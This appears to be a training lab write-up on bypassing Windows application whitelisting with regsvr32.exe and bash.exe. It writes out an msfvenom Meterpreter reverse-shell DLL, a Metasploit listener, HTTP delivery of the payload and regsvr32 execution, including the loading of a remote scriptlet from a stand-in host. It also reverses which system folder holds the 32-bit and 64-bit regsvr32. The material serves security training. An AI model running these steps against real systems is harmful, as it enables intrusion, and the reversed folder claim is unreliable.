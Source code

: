 # Application whitelisting bypasses

Application Whitelisting is a Microsoft endpoint security feature that prevents malicious and unauthorised programs 
from executing in real-time. Application whitelisting is rule-based, where it specifies a list of approved applications 
or executable files that are allowed to be present and executed on an OS. Some LOLBAS examples that are used to bypass 
the Windows application whitelisting.

## Regsvr32

Regsvr32 is a Microsoft command-line tool to register and unregister Dynamic Link Libraries (DLLs) in the Windows 
Registry. The `regsvr.exe` binary is located at:

    C:\Windows\System32\regsvr32.exe for the Windows 32 bits version
    C:\Windows\SysWOW64\regsvr32.exe for the Windows 64 bits version

Besides its intended use, `regsvr32.exe` binary can also be used to execute arbitrary binaries and bypass the Windows 
Application Whitelisting. 

According to Red Canary reports, the `regsvr32.exe` binary is the third most popular ATT&CK technique. Mitre identifies 
it as "System Binary Proxy Execution: Regsvr32" ([T1218.010](https://attack.mitre.org/techniques/T1218/010/)).

## Bourne Again Shell (Bash)

In 2016, Microsoft added support for the Linux environment on Windows 10, 11, and Server 2019. This feature is known 
as Windows Subsystem for Linux (WSL), and it exists in two WSL versions: WSL1 and WSL2. WSL is a Hyper-V virtualised 
Linux distribution that runs on the OS, supporting a subset of the Linux kernel and system calls. This feature is an 
addon that a user can install. As part of WSL, `bash.exe` is a Microsoft tool for interacting with the Linux 
environment.

By executing `bash.exe -c "path-to-payload"`, any unsigned payload can be executed. ATT&CK called this an 
"Indirect Command execution" technique ([T1202](https://attack.mitre.org/techniques/T1202/)).

## Lab

1. Create a malicious DLL file using msfvenom (32 bit):

```text
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f dll -a x86 > live0fftheland.dll
```

2. Set up a Metasploit listener to receive a reverse shell:

```text
$ msfconsole -q 
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp 
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp 
msf6 exploit(multi/handler) > set LHOST ATTACKBOX_IP
LHOST => ATTACKBOX_IP
msf6 exploit(multi/handler) > set LPORT 443 
LPORT => 443 
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on ATTACKBOX_IP:443
```

3. Deliver the payload to the target machine using a webserver to serve the DLL file on our attacking machine:

```text
$ python3 -m http.server 1337
```

On the target machine, download the DLL file, and execute it using `regsvr32.exe`:

```text
c:\Windows\System32\regsvr32.exe c:\Users\thm\Downloads\live0fftheland.dll
```

Or:

```text
c:\Windows\System32\regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\live0fftheland.dll
```

* `/s`: in silent mode (without showing messages)
* `/n`: to not call the DLL register server
* `/i`:: to use another server since we used `/n`
* `/u`: to run with unregister method

On the attacking machine:

```text
msf6 > exploit(multi/handler) > exploit 
```

Note: For a 64-bit DLL version, specify it in the msfvenom command and run it from the victim machine using the 
64bits version of `regsvr32.exe` at `C:\Windows\SysWOW64\regsvr32.exe`.

## Resources

* [Red Canary](https://redcanary.com/)
* [Windows Subsystem for Linux (WSL)](https://docs.microsoft.com/en-us/windows/wsl/about)

